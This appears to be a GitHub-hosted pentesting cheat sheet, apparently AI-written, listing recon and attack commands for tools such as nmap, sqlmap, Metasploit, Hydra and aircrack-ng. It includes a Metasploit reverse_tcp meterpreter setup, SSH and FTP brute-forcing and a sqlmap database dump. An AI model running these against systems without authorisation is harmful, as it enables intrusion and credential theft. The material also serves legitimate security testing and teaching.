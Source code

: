 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [**netcat (nc)**](#**netcat\(nc)**)
    - [**nmap**](#**nmap**)

## Table of Contents

    - [**netcat (nc)**](#**netcat\(nc)**)
    - [**nmap**](#**nmap**)

Certainly! I'll enhance your Linux Reconnaissance and Enumeration Cheat Sheet with more examples and specific details for each tool. Here we go:

1. **whois**
   - Get detailed information about a domain:
     ```bash
     whois example.com
     ```
   - Find out the registrar and expiration date of a domain:
     ```bash
     whois -H example.com | grep -E 'Registrar:|Expiration Date:'
     ```

2. **dig (Domain Information Groper)**
   - Retrieve A (address) records:
     ```bash
     dig example.com A
     ```
   - Query a specific DNS server:
     ```bash
     dig @8.8.8.8 example.com
     ```
   - Get reverse DNS lookup:
     ```bash
     dig -x 8.8.8.8
     ```

3. **nslookup**
   - Interactive mode for multiple queries:
     ```bash
     nslookup
     > set type=mx
     > example.com
     ```
   - Get SOA (Start of Authority) record:
     ```bash
     nslookup -type=soa example.com
     ```

4. **ping**
   - Ping continuously until stopped:
     ```bash
     ping example.com
     ```
   - Specify the number of echo requests:
     ```bash
     ping -c 5 example.com
     ```

5. **traceroute**
   - Trace route with a specific number of queries per hop:
     ```bash
     traceroute -q 1 example.com
     ```
   - Use ICMP ECHO instead of UDP datagrams:
     ```bash
     traceroute -I example.com
     ```

### **netcat (nc)**
   - Listen on a specific port:
     ```bash
     nc -l 1234
     ```
   - Create a simple TCP proxy:
     ```bash
     nc -l -p 1234 | nc target_host target_port
     ```

### **nmap**
   - *Scan a range of IPs*:
     ```bash
     nmap 192.168.1.1-10
     ```
   - *Detect OS and services*:
     ```bash
     nmap -A 192.168.1.1
     ```
   - Perform a stealthy scan:
     ```bash
     nmap -sS 192.168.1.1
     ```

8. **theHarvester**
   - Search across multiple sources:
     ```bash
     theHarvester -d example.com -b all
     ```
   - Specify the limit for search results:
     ```bash
     theHarvester -d example.com -l 500 -b google
     ```

9. **Nikto**
   - Scan for specific vulnerabilities:
     ```bash
     nikto -Plugins "xss;sql;traversal" -h example.com
     ```
   - Update before scanning:
     ```bash
     nikto -update
     nikto -h example.com
     ```

10. **SQLmap**
    - Test for specific SQL injection types:
      ```bash
      sqlmap -u "http://example.com/page.php?id=1" --risk=3 --level=5 --dbms=mysql
      ```
    - Dump database tables:
      ```bash
      sqlmap -u "http://example.com/page.php?id=1" --dump
      ```

11. **Metasploit Framework**
    - Search for a specific exploit:
      ```bash
      msfconsole
      search type:exploit platform:linux name:example
      ```
    - Set payload and options:
      ```bash
      use exploit/linux/http/example_exploit
      set PAYLOAD linux/x64/meterpreter/reverse_tcp
      set LHOST [Your IP]
      set RHOSTS example.com
      exploit
      ```

12. **Wireshark**
    - Open a specific capture file:
      ```bash
      wireshark -r file.cap
      ```
    - Start a new live capture on a specific interface:
      ```bash
      wireshark -i eth0
      ```

13. **tcpdump**
    - Capture and save packets to a file:
      ```bash
      tcpdump -i eth0 -w capture.pcap
      ```
    - Capture only TCP packets:
      ```bash
      tcpdump -i eth0 tcp
      ```

14. **Hydra**
    - Brute force SSH login:
      ```bash
      hydra -l user -P passlist.txt ssh://example.com
      ```
    - Attempt login with a list of usernames:
      ```bash
      hydra -L userlist.txt -p defaultpassword ftp://example.com
      ```

15. **John the Ripper**
    - Crack password hashes with a specific format:
      ```bash
      john --format=md5crypt hashfile
      ```
    - Show cracked passwords:
      ```bash
      john --show hashfile
      ```

16. **Aircrack-ng**
    - Crack WEP encryption:
      ```bash
      aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
      ```
    - Monitor and capture packets:
      ```bash
      airodump-ng -c [channel] --bssid [BSSID] -w capture wlan0
      ```

17. **OWASP ZAP**
    - Start ZAP in headless mode:
      ```bash
      zap.sh -daemon -port 8090
      ```
    - Perform an automated scan:
      ```bash
      zap-cli quick-scan --self-contained -s xss,sqli http://example.com
      ```

18. **Gobuster**
    - Brute force subdomains:
      ```bash
      gobuster dns -d example.com -w subdomains.txt
      ```
    - Use specific file extensions in search:
      ```bash
      gobuster dir -u http://example.com -w wordlist.txt -x .php,.html
      ```

19. **Enum4linux**
    - Get verbose output:
      ```bash
      enum4linux -v target_ip
      ```
    - Enumerate users:
      ```bash
      enum4linux -U target_ip
      ```

20. **DNSenum**
    - Perform standard record enumeration:
      ```bash
      dnsenum --enum example.com
      ```
    - Include reverse lookup of ranges and subdomain brute-forcing:
      ```bash
      dnsenum --enum -r -s 500 example.com
      ```
